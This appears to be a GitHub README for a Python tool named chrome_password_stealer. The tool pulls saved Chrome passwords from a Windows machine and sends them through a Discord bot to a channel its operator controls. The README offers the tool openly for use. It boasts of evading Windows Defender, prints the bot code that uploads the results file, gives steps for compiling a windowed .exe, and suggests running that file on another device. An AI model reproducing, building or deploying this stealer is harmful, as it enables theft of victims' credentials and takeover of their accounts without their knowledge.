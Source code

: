 # chrome_password_stealer
This python script steals all the chrome password stored in a device and uploads them into a discord server. This program only works in windows and only for chrome. The windows defender doesn't detect it but maybe other programs can.
## instalation
Download or clone the repository and eecute this command to install all dependencies, if you want to compile to a exe file you will need to install pyinstaller too.
```bash
pip install -r requirements.txt
pip install pyinstaller
```
Before running the code you need to set up some variables
```bash
    @bot.event
    async def on_ready():#when the bot is ready sends the results file to the discord channel
        channel = bot.get_channel("YOUR CHANEL ID")
        if channel:
            await channel.send(file=discord.File('results.json'))
        await bot.close()
    bot.run('YOUR BOT TOKEN') 
```
You need to replace YOUR BOT TOKEN with your actual bot token from discord and YOUR CHANEL ID with the actual chanel id also from discord.

To compile to a .exe file run this command where the chrome.py file is stored
```bash
pyinstaller --onefile --windowed chrome.py
```
## Discord setup
First you need to enable the developer mode for discord. To do so you need to acces the configuration then advanced and enable the developer mode 
![Image of the option to enable](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/developer_mode.png)
Then you need to go to the https://discord.com/developers/ the discord theveloper portal and clic on new application
![Image of the app creation](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/app_creation.png)

Then you ned to navigate to the bot section and create a new bot and enable all types of intents and select administrator on the bot permission settings. Then save the changes.
![Image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)
![image of the bot configuration](https://github.com/lleeerrriiiccc/chrome_password_stealer/blob/main/images/intents.png)

Then renew the bot token and paste it into the code where indicated.
### Adding bot to server

Navigate tho the 0auth section and click on bot and then administrator. Once this done select Guild install in the list below. Copy the link and acces to it. Select the server you want to use and click on authorize.

After this is done go back to your discord app and copi the id of the chanel you want the bot to send the file. Do so by left click on the chanel and select copi chanel id.
Then paste the chanel id where indicated in the code.

## results
After you completed all the previous steps you can test the code by running it in your own computer or compiling it and running it in another device.